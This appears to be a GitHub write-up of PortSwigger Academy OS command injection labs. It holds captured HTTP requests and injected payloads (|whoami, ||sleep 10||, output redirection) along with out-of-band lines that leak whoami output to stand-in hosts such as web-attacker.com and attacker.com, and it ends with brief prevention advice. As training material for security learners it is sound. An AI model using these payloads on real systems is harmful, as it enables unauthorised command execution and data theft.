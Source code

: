 # OS command injection


<details>
  <summary>Lab: OS command injection, simple case</summary>

> ###  This lab contains an OS command injection vulnerability in the product stock checker.The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

> To solve the lab, execute the ``whoami`` command to determine the name of the current user. 

---

```http
POST /product/stock HTTP/2
Host: 0ab600310469ed45802f12260076000d.web-security-academy.net
Cookie: session=7KilxApzO1M9KGCtQBlkx9sG5MambgGs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab600310469ed45802f12260076000d.web-security-academy.net/product?productId=20
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0ab600310469ed45802f12260076000d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



productId=20&storeId=1
```


```url
productId=20&storeId=1|whoami
productId=20&storeId=1;whoami
```

``output``

```css
peter-uTFecW
```



  
</details>











<details>
  <summary>Lab: Blind OS command injection with time delays</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a ``10 second`` delay. 


---


```http
POST /feedback/submit HTTP/2
Host: 0aec0019044339aa8183eed900a700bb.web-security-academy.net
Cookie: session=UpWx4wsAbuhkNEr75meJinFiJae3vxOM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: https://0aec0019044339aa8183eed900a700bb.web-security-academy.net
Referer: https://0aec0019044339aa8183eed900a700bb.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com&subject=hack&message=hello;
```




```bash
csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com||ping+-c+10+127.0.0.1||&subject=hack&message=hello;
csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com||sleep+10||&subject=hack&message=hello;
```







  
</details>





<details>
  <summary>Lab: Blind OS command injection with output redirection</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:``/var/www/images/``

> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

> To solve the lab, execute the ``whoami`` command and retrieve the output. 



---

```
POST /feedback/submit HTTP/2
Host: 0ae3008f0323db578143254500a10043.web-security-academy.net
Cookie: session=7r1pMaXUqstxBss3DmNyzzo4jwQTsXF0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0ae3008f0323db578143254500a10043.web-security-academy.net
Referer: https://0ae3008f0323db578143254500a10043.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=example@admin.com&subject=c&message=d
```


```url
csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=||whoami>/var/www/images/output.txt||&subject=c&message=d
```


```url
https://0ae3008f0323db578143254500a10043.web-security-academy.net/image?filename=output.txt
```

``OUtput``

```
peter-p9zLde
```



  
</details>







<details>
  <summary>Lab: Blind OS command injection with out-of-band interaction</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 


---


```
csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=||nslookup crudrnshcmhythtyywai7uanxa8alegy6.oast.fun||&subject=c&message=d
```


  
</details>






<details>
  <summary>Lab: Blind OS command injection with out-of-band data exfiltration</summary>


```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

  
</details>









---


## Ways of injecting OS commands

> You can use a number of shell metacharacters to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems: 

```bash

    &
    &&
    |
    ||

```



On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command: 


```bash
ping `whoami`.attacker.com
# أو
ping $(whoami).attacker.com

```



<details>
  <summary>How to prevent OS command injection attacks</summary>

> ### The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code.

> ### If you have to call out to OS commands with user-supplied input, then you must perform strong input validation. Some examples of effective validation include:  



   * Validating against a whitelist of permitted values.
   * Validating that the input is a number.
   * Validating that the input contains only alphanumeric characters, no other syntax or whitespace.


  
</details>








